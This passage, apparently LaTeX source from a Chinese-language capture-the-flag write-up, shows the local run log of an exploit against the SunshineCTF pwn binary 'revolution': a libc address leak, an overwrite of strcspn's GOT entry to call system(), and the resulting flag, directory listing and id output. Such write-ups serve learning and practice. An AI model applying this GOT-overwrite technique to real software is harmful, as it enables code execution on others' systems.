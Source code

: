 \documentclass[10pt,a4paper]{article}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{10.
實際執行結果}\label{ux5be6ux969bux57f7ux884cux7d50ux679c-2}

\paragraph{\texorpdfstring{10.1 本機（\texttt{./\allowbreak{}flag.\allowbreak{}txt} =
\texttt{sun\{\allowbreak{}LOCAL\_\allowbreak{}TEST\_\allowbreak{}FLAG\}\allowbreak{}}）}{10.1 本機（./flag.txt = sun\{LOCAL\_TEST\_FLAG\}）}}\label{ux672cux6a5f.flag.txt-sunlocal_test_flag}

\begin{quote}
（\textbf{節錄}：因為 \texttt{COMMANDS} \textbf{同時}執行了
\texttt{cat\ \allowbreak{}flag.\allowbreak{}txt} 與本機 flag 的絕對路徑， 所以本機的 flag
會印\textbf{兩次}；而且本機不會 SIGSEGV，結尾還會再出現一行
\texttt{score\textgreater{}\allowbreak{}}（見 §9.2）。 完整紀錄在
\texttt{pwn3/\allowbreak{}local\_\allowbreak{}run.\allowbreak{}log}。）
\end{quote}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
$ python3 exploit.py
[*] mode      : LOCAL ./revolution
[*] code probe @0x4010d0 = f30f1efa4154ba1f
[+] setvbuf@libc = 0x7f9bc94843f0   ->   libc base = 0x7f9bc9400000
[*] &_IO_2_1_stdout_ = 0x7f9bc9617580 (base+0x217580)
[+] system = 0x7f9bc9454580
[+] strcspn@got overwritten -> main() runs system(buf) on the next line
sun{LOCAL_TEST_FLAG}
sun{LOCAL_TEST_FLAG}        ← 第二次：命令裡還帶了本機 flag 的絕對路徑
total 2196
drwxr-xr-x  3 kzzz kzzz    4096 ...
uid=1001(kzzz) gid=1001(kzzz) groups=1001(kzzz),65534(nobody)
DONE

score>                      ← 本機不會 SIGSEGV（見 §9.2）
FLAG: sun{LOCAL_TEST_FLAG}
\end{Verbatim}

\paragraph{\texorpdfstring{10.2
遠端（\texttt{chal.\allowbreak{}sunshinectf.\allowbreak{}games:\allowbreak{}26002}）}{10.2 遠端（chal.sunshinectf.games:26002）}}\label{ux9060ux7aefchal.sunshinectf.games26002}
\end{document}
